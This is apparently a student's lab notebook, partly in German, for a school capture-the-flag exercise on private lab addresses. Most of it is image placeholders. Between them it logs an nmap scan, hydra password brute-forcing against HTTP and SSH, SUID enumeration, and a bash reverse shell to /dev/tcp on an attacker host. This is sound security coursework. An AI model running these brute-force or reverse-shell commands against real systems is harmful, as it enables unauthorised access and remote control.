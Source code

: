 ```yaml
---
tags:
  - 3te_Klasse
  - itsi
---
```

`nmap 192.168.56.0/24`
mit allen ports
-T4 damit keine firewallfaxen
![[Pasted image 20250117175643.png]]
![[Pasted image 20250117175813.png]]
![[Pasted image 20250117175921.png]]
![[Pasted image 20250117180005.png]]
![[Pasted image 20250117180023.png]]
![[Pasted image 20250117180037.png]]
![[Pasted image 20250117180113.png]]
![[Pasted image 20250117180209.png]]
![[Pasted image 20250117180747.png]]
![[Pasted image 20250117180729.png]]
![[Pasted image 20250117181656.png]]
python file für proof zeigen
github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-10000.txt
https://tylerrockwell.github.io/defeating-basic-auth-with-hydra/
`hydra -l user -P pw.txt -s 55487 -f 192.168.15.3 http-get /`
![[Pasted image 20250117182116.png]]
![[Pasted image 20250117182208.png]]
`FLAG{use_secure_credentials}`
![[Pasted image 20250117183032.png]]
![[Pasted image 20250117183014.png]]
![[Pasted image 20250117183153.png]]
![[Pasted image 20250117183736.png]]
`ls -R *`
![[Pasted image 20250117190434.png]]
![[Pasted image 20250117191517.png]]
![[Pasted image 20250117191545.png]]
`hydra -l GrumpyCat -P pw.txt 192.168.15.3 ssh -t 4`
`find -perm -4000 2> /dev/null`
![[Pasted image 20250117195129.png]]
`cat /proc/741/cmdline`
`find -name "ctf_server.py" 2> /dev/null`
https://superuser.com/questions/632979/if-i-know-the-pid-number-of-a-process-how-can-i-get-its-name
![[Pasted image 20250117202527.png]]
https://medium.com/techiepedia/series-of-ctf-machines-walkthrough-4-linux-privilege-escalation-enumeration-247899027be
`ls -R * 2>dev/null| grep -i flag`
`cat /usr/local/bin/flag_process.sh`
![[Pasted image 20250117204436.png]]
![[Pasted image 20250117211103.png]]
![[Pasted image 20250117211250.png]]
![[Pasted image 20250117211407.png]]
![[Pasted image 20250117211426.png]]
https://www.exploit-db.com/exploits/42274


https://www.puckiestyle.nl/upgrading-netcat-shells-to-meterpreter-sessions/
`bash -i> /dev/tcp/192.168.15.4/6969 0>&1`
![[Pasted image 20250117234351.png]]
![[Pasted image 20250117234356.png]]
![[Pasted image 20250117234535.png]]

suid thing
```bash
find / -type f -perm -4001 -exec ls -h {} \; 2> /dev/null
```

